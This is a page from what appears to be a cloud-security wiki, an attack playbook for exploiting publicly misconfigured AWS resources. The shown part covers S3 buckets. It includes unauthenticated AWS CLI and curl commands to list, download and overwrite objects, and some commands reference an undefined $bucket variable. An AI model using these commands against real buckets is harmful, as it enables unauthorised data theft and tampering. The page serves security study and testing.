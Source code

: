 More info&techniques on: https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/

# Exploiting Public AWS Resources - CLI Attack Playbook[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#exploiting-public-aws-resources-cli-attack-playbook "Permanent link")
-  **Tools mentioned in this article**
    [CloudShovel](https://github.com/saw-your-packet/CloudShovel): A tool for scanning public or private AMIs for sensitive files and secrets
    [coldsnap](https://github.com/awslabs/coldsnap): A command line interface for Amazon EBS snapshots

This playbook shows how to exploit AWS resources that can be misconfigured to be publicly accessible. Think of it as a glossary of quick exploitation techniques that can be performed programmatically.

All attacks are meant to be executed from an external environment where the attacker is ideally an administrator.

The document is split in two categories: 1. Services and resources that can be found from a black-box perspective with little to reasonable effort 2. Services and resources that require information that can't be obtained through enumeration or brute-force

## 1. Can be found from black-box perspective[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#1-can-be-found-from-black-box-perspective "Permanent link")
These services might be found from [Awseye](https://awseye.com/), Google Dorking, enumeration, searchable via AWS account ID and other sane methods.

### S3 Buckets[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#s3-buckets "Permanent link")
#### Public List, Read and Write[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#public-list-read-and-write "Permanent link")
Misconfiguration:
`{     "Version": "2012-10-17",     "Statement": [         {             "Sid": "PublicReadWrite",             "Effect": "Allow",             "Principal": "*",             "Action": [                 "s3:ListBucket",                 "s3:GetObject",                 "s3:PutObject"             ],             "Resource": [                 "arn:aws:s3:::example-bucket",                 "arn:aws:s3:::example-bucket/*"             ]         }     ] }`

`bucket_name="example-bucket" region="region"  # List bucket contents via HTTP curl https://$bucket_name.s3.$region.amazonaws.com/  # List bucket contents via CLI unauthenticated # --no-sign-request will perform the API call unauthenticated aws --no-sign-request s3 ls s3://$bucket_name  # List all objects including in subfolders unauthenticated aws --no-sign-request s3api list-objects-v2 --bucket $bucket_name  file_name="target-file"  # Download file from bucket unauthenticated aws --no-sign-request s3 cp s3://$bucket/$file_name .  # Upload file unauthenticated # Files with same name are overwritten echo "hackingthe.cloud" > $file_name.new aws --no-sign-request s3 cp $file_name.new s3://$bucket/`
